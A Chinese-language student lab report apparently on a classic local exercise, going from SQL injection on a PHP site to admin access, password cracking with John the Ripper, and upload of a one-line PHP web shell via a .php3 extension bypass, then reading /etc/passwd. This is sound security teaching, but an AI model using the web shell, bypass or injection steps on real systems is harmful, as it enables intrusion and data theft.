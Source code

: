 # 实验三 从SQL注入到Shell

### 实验目的

在基于PHP的网站中使用SQL注入并使用它来访问管理页面，用这种访问，在目标服务器上获得代码执行。

### 实验步骤

攻击分为3个步骤：

* 指纹：收集有关Web应用程序和正在使用的技术的信息。
* SQL注入的检测和利用：学习SQL注入如何工作以及如何利用它们来检索信息。
* 访问管理页面和代码执行：访问操作系统和运行命令的最后一步。

### 环境配置

目标机和攻击者主机配置在统一局域网段，使攻击者主机可以访问目标机。

目标机IP：

![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E9%9D%B6%E6%9C%BAIP.png)

攻击者主机IP：

![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E6%94%BB%E5%87%BB%E8%80%85%E4%B8%BB%E6%9C%BAIP.png)

配置结果：

![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/ping%E6%95%88%E6%9E%9C.png)

### 实验过程

#### 收集指纹

   * HTTP请求，通过观察服务器发回的HTTP头来检索PHP版本和Web服务器的信息：

   ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/HTTP%E8%AF%B7%E6%B1%82%E6%B5%8B%E8%AF%95.png)

   * 使用Burp Suite作为代理检索相同的信息：

   ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/BurpSuite%E5%8A%AB%E6%8C%81.png)

   * HTTPS请求失败，说明应用程序只能通过HTTP（没有任何运行在端口443上）：

   ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/HTTPS%E8%AF%B7%E6%B1%82%E5%A4%B1%E8%B4%A5.png)

   * 工具wfuzz使用蛮力检测Web服务器上的目录和页面：

     1）使用命令：<br/>
     `$ python wfuzz.py -c -z file,wordlist/general/big.txt --hc 404 http://vulnerable/FUZZ`

     其中：<br/>
     `-c 表示高亮显示`<br/>
     `-z file，wordlist / general / big.txt  告诉wfuzz使用文件wordlists / general / big.txt作为字典来强制远程目录的名字。`<br/>
     ` --hc 404  告诉wfuzz忽略响应，如果响应代码是404（Page not found）`<br/>
     `http：// vulnerable / FUZZ  告诉wfuzz用字典中的每个值替换URL中的FUZZ这个词。`<br/>

     ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E6%A3%80%E6%B5%8B%E8%BF%9C%E7%A8%8B%E6%96%87%E4%BB%B6%E5%92%8C%E7%9B%AE%E5%BD%95.png)

     2）检测远程目录下的PHP脚本

     ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E6%A3%80%E6%B5%8B%E8%BF%9C%E7%A8%8B%E7%9B%AE%E5%BD%95%E4%B8%8B%E7%9A%84PHP%E8%84%9A%E6%9C%AC.png)

#### SQL注入的检测和利用

   * 因为单引号，数据库会引发错误。由于显示了错误消息，因此很容易检测到网站中的任何漏洞。这里提示语法错误，显示数据库为Mysql

   ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E5%8F%91%E7%8E%B0%E6%95%B0%E6%8D%AE%E5%BA%93%E4%B8%BAMySQL.png)

   * 基于数字的检索

      *用户提供的值被视为一个整数直接回显到SQL请求中*

       1）效果1

       ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E5%9F%BA%E4%BA%8E%E6%95%B0%E5%AD%97%E7%9A%84%E6%A3%80%E7%B4%A21.png)

       2）效果2

       ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E5%9F%BA%E4%BA%8E%E6%95%B0%E5%AD%97%E7%9A%84%E6%A3%80%E7%B4%A22.png)

   * 利用UNION开发SQL注入

     * 获得数据库版本号

     ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E8%8E%B7%E5%BE%97%E6%95%B0%E6%8D%AE%E5%BA%93%E7%89%88%E6%9C%AC%E5%8F%B7.png)

     * 获得系统当前用户名：

     ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E8%8E%B7%E5%BE%97%E7%B3%BB%E7%BB%9F%E7%94%A8%E6%88%B7%E5%90%8D.png)

     * 当前数据库名：

     ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E8%8E%B7%E5%BE%97%E5%BD%93%E5%89%8D%E6%95%B0%E6%8D%AE%E5%BA%93%E5%90%8D.png)

     * 使用ORDER BY语句（告诉数据库应该使用哪个列对结果进行排序）猜测列的数量，语句中的列号大于查询中的列数4，抛出错误

     ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/Order%20by%E6%B5%8B%E8%AF%95.png)

   * MySQL提供的表格包含有关自MySQL 5以来可用的数据库，表格和列的元信息。使用这些表来检索我们需要建立最终请求的信息。这些表存储在数据库information_schema中。

      * 检索数据库中的所有表名

      ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E6%9F%A5%E8%AF%A2%E6%95%B0%E6%8D%AE%E5%BA%93%E4%B8%AD%E6%89%80%E6%9C%89%E8%A1%A8%E5%90%8D.png)

      * 检索数据库中的所有列名

      ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E6%9F%A5%E8%AF%A2%E6%95%B0%E6%8D%AE%E5%BA%93%E4%B8%AD%E6%89%80%E6%9C%89%E5%88%97%E5%90%8D.png)

      * 检索数据库中表名列名的对应关系

      ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E6%9F%A5%E8%AF%A2%E6%95%B0%E6%8D%AE%E5%BA%93%E4%B8%AD%E8%A1%A8%E5%90%8D%E5%88%97%E5%90%8D%E5%AF%B9%E5%BA%94%E5%85%B3%E7%B3%BB.png)

   * 使用关键字CONCAT注入的同一部分中连接表名和列名，构建一个查询来从这个表中检索信息，获取用于访问管理页面的用户名和密码：

   ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E8%8E%B7%E5%8F%96%E7%AE%A1%E7%90%86%E9%A1%B5%E9%9D%A2%E7%9A%84%E7%94%A8%E6%88%B7%E5%90%8D%E5%92%8C%E5%AF%86%E7%A0%81.png)

   * 访问管理页面和代码执行

     * 使用工具John-The-Ripper破解密码

      * 进入字典所在文件路径，并查看路径下的文件

      ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E8%BF%9B%E5%85%A5%E5%AD%97%E5%85%B8%E6%89%80%E5%9C%A8%E6%96%87%E4%BB%B6%E8%B7%AF%E5%BE%84.png)

      * 解压缩字典文件，查看详细信息并显示头

      ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E8%A7%A3%E5%8E%8B%E7%BC%A9%E5%AD%97%E5%85%B8%E6%96%87%E4%BB%B6.png)

      * 创建password文件，包含待解密密码。为John提供正确格式的信息：把用户名和密码放在冒号“：”分隔的同一行。

        `admin:8efe310f9ab3efeae8d410a8e0166eb2`

      ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E7%A0%B4%E8%A7%A3%E5%AF%86%E7%A0%81.png)

      命令含义<br/>
      `password.txt告诉john什么文件包含密码哈希`<br/>
      `--format = raw-md5告诉john密码哈希是raw-md5格式`<br/>
      `--wordlist = dico告诉john使用文件dico作为一个词典`<br/>
      `--rules告诉John尝试提供每个单词的变体`

#### 上传Webshell脚本

  * 根据破解的密码和SQL注入查询到的用户名进入管理界面

  ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E8%BF%9B%E5%85%A5%E7%AE%A1%E7%90%86%E9%A1%B5%E9%9D%A2.png)

  * 登录成功

  ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E7%AE%A1%E7%90%86%E9%A1%B5%E9%9D%A2%E7%99%BB%E5%BD%95%E6%88%90%E5%8A%9F.png)

  * 发现文件上传功能

  ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E5%8F%91%E7%8E%B0%E4%B8%8A%E4%BC%A0%E6%96%87%E4%BB%B6%E5%8A%9F%E8%83%BD.png)

  * 创建PHP脚本,  该脚本获取参数cmd的内容并执行它
    ```Php
    <?php
    system($_GET['cmd']);
    ?>
    ```

  * 上传失败后（提示禁止上传php）更改后缀名，上传成功

  *(该应用程序阻止文件扩展名为.php上传,使用php3为后缀名绕过.php的过滤)*

  ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E4%B8%8A%E4%BC%A0php%E6%96%87%E4%BB%B6.png)

  * 找到PHP脚本的位置，要确保该文件可以直接用于Web客户端。可以访问新上传图片的网页，查看<img标签指向的位置：

  ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E6%9F%A5%E7%9C%8B%E4%B8%8A%E4%BC%A0%E7%9A%84php%E6%96%87%E4%BB%B6.png)

### 实验结果

   代码执行（访问以下地址的页面，并使用cmd参数开始运行命令）：
   * 访问http：//vulnerable/admin/uploads/shell.php3？cmd = uname将在操作系统上运行命令uname并返回当前内核。

   ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E6%9F%A5%E7%9C%8B%E7%9B%AE%E6%A0%87%E6%9C%BA%E5%86%85%E6%A0%B8.png)

   * ls获取当前目录的内容

   ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E8%8E%B7%E5%8F%96%E5%BD%93%E5%89%8D%E7%9B%AE%E5%BD%95%E7%9A%84%E5%86%85%E5%AE%B9.png)

   * cat / etc / passwd获取系统用户的完整列表

   ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E6%9F%A5%E7%9C%8B%E7%9B%AE%E6%A0%87%E6%9C%BA%E7%B3%BB%E7%BB%9F%E7%94%A8%E6%88%B7%E5%88%97%E8%A1%A8.png)

   * 无法获取文件/ etc / shadow的内容，因为web服务器无法访问此文件

     *（webshell与运行PHP脚本的web服务器具有相同的权限）*

  ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E6%97%A0%E6%B3%95%E8%8E%B7%E5%8F%96%E6%96%87%E4%BB%B6shadow%E7%9A%84%E5%86%85%E5%AE%B9.png)

   * 运行ls / etc获取目录/ etc /的内容

   *（每个命令独立于以前的命令运行在一个全新的上下文中，无法通过运行cd / etc和ls来获取/ etc /目录的内容，因为第二个命令将处于新的上下文中。）*

   ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E8%8E%B7%E5%8F%96%E7%9B%AE%E5%BD%95etc%E7%9A%84%E5%86%85%E5%AE%B9.png)
